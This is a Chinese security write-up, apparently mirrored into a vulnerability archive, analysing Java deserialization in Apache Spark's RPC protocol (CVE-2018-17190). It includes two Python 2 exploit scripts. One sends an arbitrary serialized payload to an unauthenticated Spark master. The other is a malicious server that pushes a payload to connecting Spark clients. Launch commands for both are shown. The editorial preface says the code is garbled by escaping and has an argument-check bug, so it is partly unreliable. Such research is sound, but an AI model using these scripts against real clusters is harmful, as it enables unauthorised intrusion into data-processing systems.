




# Apache Spark RPC 协议中的反序列化漏洞分析 - 斗象能力中心

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：未启用spark.authenticate的standalone master可达；客户端方向需连接恶意服务端，且有可利用gadget
- 证据范围：请求/响应双向协议分析有独立价值，作者只证反序列化并承认gadget不足，不能扩大为已成功任意版本RCE。

### 已有来源支持的更正

- 官方17190聚焦未认证standalone master执行代码，认证启用不受此项影响

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。
- 运行时标注：原示例含 Python 2 专用语法或模块，不能直接按 Python 3 运行；不在本次校订中迁移或执行。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 代码含大量Markdown转义反斜线、双转义字节串，无法原样解析为所述Python2协议脚本
- 第一个脚本参数检查<3却访问argv[3]，数量校验错
- invalid type code证明解析路径不等于已获得代码执行
- 17190官方重点是本不应执行用户代码的master被执行；反向客户端研究不可未经核验自动归同CVE
- 全版本须保留当时公告/未认证配置语境；反序列化终将成为历史是无依据预测

### 核验来源

- https://spark.apache.org/security.html

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.riskivy.com](https://blog.riskivy.com/apache-spark-rpc%e5%8d%8f%e8%ae%ae%e4%b8%ad%e7%9a%84%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/)

Apache Spark RPC 协议中的反序列化漏洞分析
-----------------------------

1\. 前言
------

在前一阵，`Spark`官方发布了标题为《CVE-2018-17190: Unsecured Apache Spark standalone executes user code》的安全公告。  
公告中指明漏洞影响版本为全版本，且没有标明已修复的版本，只有相关缓解措施。  
官方缓解措施如下：在任何未受到不必要访问保护的`Spark`单机群集上启用身份验证，例如通过网络层面限制。使用`spark.authenticate`和相关的安全属性。  
查询了相关文档，`spark.authenticate`是 RPC 协议中的一个配置属性，此参数控制`Spark RPC`是否使用共享密钥进行认证。

2.Spark RPC
-----------

`Spark RPC` 是一个自定义的协议。底层是基于`netty4`开发的，相关的实现封装在`spark-network-common.jar`和`spark-core.jar`中，其中前者使用的`JAVA`开发的后者使用的是`scala`语言。  
协议内部结构由两部分构成`header`和`body`，`header`中的内容包括: 整个 frame 的长度（8 个字节），message 的类型（1 个字节），以及 requestID（8 个字节）还有 body 的长度（4 个字节）  
body 根据协议定义的数据类型不同略有差异.  


`RpcRequest`消息类型的 body 大致由两部分构造，前半部分包含通信双方的地址和端口以及名字信息，接下来就是 java 序列化后的内容`ac ed 00 05`开头。  


消息类型为 RpcResponse 的 body 就直接是 java 反序列后的内容。  


3\. 搭建 Spark 单独集群服务器  
从官网下载，然后通过 - h 指定 IP 地址，让端口监听在所有的网卡上  
`./start-master.sh -h 0.0.0.0 -p 7077`

4\. 证明服务端存在反序列化过程
-----------------

`spark_exploit.py` 通过第一个参数和第二个参数指明远程 spark 集群的连接信息，第三个参数为 JAVA 反序列化漏洞`payload`。  
通过调用 `build_msg` 函数将 `payload` 构建到消息中再发送给服务端，过程比较简单。

```
#!/usr/bin/python
import socket
import os
import sys
import struct

if len(sys.argv) < 3:
    print 'Usage: python %s <host> <port> </path/to/payload>' % os.path.basename(sys.argv\[0\])
    sys.exit()

sock = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)
sock.settimeout(5)

server\_address = (sys.argv\[1\], int(sys.argv\[2\]))
print '\[+\] Connecting to %s port %s' % server\_address
sock.connect(server\_address)


def build\_msg(payload):
    msg\_type = '\\x03'
    request\_id = '\\x50\\xb8\\xc7\\x2c\\x67\\x41\\xf7\\xc6'
    head\_length = 21
    other\_msg = """01 00 0c 31 39 32 2e 31  36 38 2e 35 36 2e 31 00
00 a1 be 01 00 0c 31 39  32 2e 31 36 38 2e 31 2e
31 35 00 00 04 d2 00 11  65 6e 64 70 6f 69 6e 74
2d 76 65 72 69 66 69 65  72"""

    other\_msg = other\_msg.replace('\\n', "").replace(' ', "").decode('hex')
    #end\_msg = """00 06 4d 61 73 74 65 72"""
    #end\_msg = end\_msg.replace('\\n', "").replace(' ', "").decode('hex')
    body\_msg = other\_msg + payload

    msg = struct.pack('>Q',len(body\_msg) + 21) + msg\_type + request\_id
    msg += struct.pack('>I',len(body\_msg)) + body\_msg

    return msg 


payloadObj = open(sys.argv\[3\],'rb').read()
payload = build\_msg(payloadObj)
print repr(payload)
print '\[+\] Sending payload...'
sock.send(payload)
data = sock.recv(1024)
if "invalid type code: 00" in data:
    print "\[!\] vul spark://%s:%s"%(sys.argv\[1\], int(sys.argv\[2\]))

print >>sys.stderr, 'received "%s"' % data


```

**原图暂未找回**（原引用：`  `）

5\. 反向操作客户端
-----------

`evil_spark_server.py` 脚本通过继承`BaseRequestHandler`类完成了一个简单的 TCP 服务，对发送过来的数据提取出 request\_id, 然后再调用 build\_msg，将 request\_id 和 payload 构成合法的 RPC 响应数据包发送给客户端。

```
#!/usr/bin/python
import socket
import os
import sys
import struct

from SocketServer import BaseRequestHandler, ThreadingTCPServer

class EchoHandler(BaseRequestHandler):
    def handle(self):
        print 'Got connection from %s'%(str(self.client\_address))
        while True:
            msg = self.request.recv(8192)
            print msg
            if not msg:
                break

            if len(msg) > 16:
                print "Send msg>>>"
                self.request.send(build\_msg(msg\[9:17\]))


def build\_msg(request\_id):
    payloadObj = open(sys.argv\[2\],'rb').read()
    msg\_type = '\\x04'
    #request\_id = '\\x50\\xb8\\xc7\\x2c\\x67\\x41\\xf7\\xc7'
    head\_length = 21

    msg = struct.pack('>Q',len(payloadObj) + 21) + msg\_type + request\_id
    msg += struct.pack('>I',len(payloadObj)) + payloadObj
    return msg

if \_\_name\_\_ == '\_\_main\_\_':
    if len(sys.argv) < 3:
        print 'Usage: python %s <port> </path/to/payload>' % os.path.basename(sys.argv\[0\])
        sys.exit()

    serv = ThreadingTCPServer(('0.0.0.0', int(sys.argv\[1\])), EchoHandler)
    print "Server listening on 0.0.0.0:%s"%(sys.argv\[1\])
    serv.serve\_forever()


```

启动服务

```shell
python evil\_spark\_server.py 1234 ser.bin


```

使用 spark 客户端进行连接.

```
spark-shell --master spark://127.0.0.1:1234


```



6\. 总结
------

通过抓包看请求数据以及阅读相关代码, 逐步确定 RPC 协议中的请求数据。客户端和服务端都使用了 JAVA 序列化来传输数据，两边都可以进行利用。  
当反过头来想利用反序列化来执行系统命令时，查找 ysoserial 发现除利用低版本 jdk 构造利用链外，并无其他合适的 gadget。  
随着时间的推移，各个库中的漏洞都将被修复和升级，已有的 gadget 将不再起作用。java 反序列化漏洞终将成为历史。

7\. 参考
------

https://spark.apache.org/security.html  
https://zhuanlan.zhihu.com/p/28893155

作者：斗象能力中心 TCC - 星光

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
